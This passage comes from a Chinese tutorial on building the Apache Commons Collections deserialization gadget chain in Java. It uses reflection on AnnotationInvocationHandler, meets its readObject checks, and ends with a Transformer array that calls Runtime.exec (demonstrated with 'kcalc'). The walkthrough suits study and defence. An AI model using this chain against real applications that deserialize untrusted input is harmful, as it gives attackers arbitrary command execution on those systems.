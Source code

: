可以看到，当 `AnnotationInvocationHandler` 被反序列化的时候，会对它的 `memberValues` 成员中的元素进行 `setValue` 的调用。也就是说，目前的基本思路就是创建一个 `AnnotationInvocationHandler` 的对象，让它的 `memberValues` 为我们构造好的 `transformedMap` 就可以了。现在先来看一下基本的构造方法。 

```java
Class annotationInvocationHdl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = annotationInvocationHdl.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);    // 让这个无权限的方法可以被调用
Object obj = constructor.newInstance(Target.class, transformedMap);
```

因为 `AnnotationInvocationHandler` 这个类属于 `sun` 包里的内部类，我们不能随便调用，所以我们必须通过反射的方式来调用。通过 `getDeclaredConstructor` 这个方法，我们获取到了这个类的构造方法，然后传入两个参数，第一个为一个 `Annotation` 实现类的 `class` 对象，第二个就是我们的危险 Map 了。


## 最后的调通

现在基本上已经解决了大部分的问题。最后的问题在于：`AnnotationInvocationHandler` 这个类的 `readObject` 方法，想要成功调用 `setValue` 方法，还需要经过两个 if 表达式。我们一个一个解决。

> `memberType != null`

对于这一个，旁边有个注释。根据注释的解释，我们往回看，看到了这两句：

```java
String name = memberValue.getKey();
Class<?> memberType = memberTypes.get(name);
```

结合整个源码来看，这两句话的意思就是说，将 `memberValue` 的 key 值用来获取 `memberType` 的元素。根据前文来看，如果跟进 `AnnotationType` 这个类就会知道，这个 `memberType` 存储的就是我们传入的那个 `Target.class` 的方法名。这个 `Target` ，可以换成其他的 `Annotation` 实现类，但是必须要有方法。比如说 `Overrided` 就不行。

根据上述分析，我们就可以修改一下我们的 `transformedMap` 对象了，因为要保证 `memberType` 不为空。我们看一下 `Target` 的源码，发现它有一个 `value()` 方法。那么我们前面的代码作出这样的更改：

```java
// 注意前面那个 key 值变成了 "value"
map.put("value", "value");
```

> `!(memberType.isInstance(value) || value instanceof ExceptionProxy)`

这个通篇来看，似乎表示的意思是，我们设置的 `transformedMap` 的 value 值是不是属于他的 `annotationType` 或者是 `ExceptionProxy` 类型。我们的 value 值刚开始是被我们设置为 String 类型的，也就是说这个 if 直接过了。

> `setValue` 方法的参数值不可控

由于这个 `setValue` 方法不是由我们控制调用的，所以它填入的参数值我们并不可控，但显然不是我们所希望的。我们希望的是传入一个 `Runtime.class` 给到 `chainedTransformer` 对象的第一个 `InvokerTransformer` 对象。

这时，我们又需要介绍一个新的 `Transformer` 类了，叫做 `ConstantTransformer` 。这个类顾名思义，它存储着一个 `Object` 对象，然后无论它的 `transform` 方法传入了个什么对象，它都会返回同一个对象。这个对象我们是可控的，我们可以让它帮我们传入 `Runtime.class` 参数。现在我们需要修改一下前面的 `chainedTransformer` 所需要的数组：

```java
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
        new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"kcalc"}),
};
```
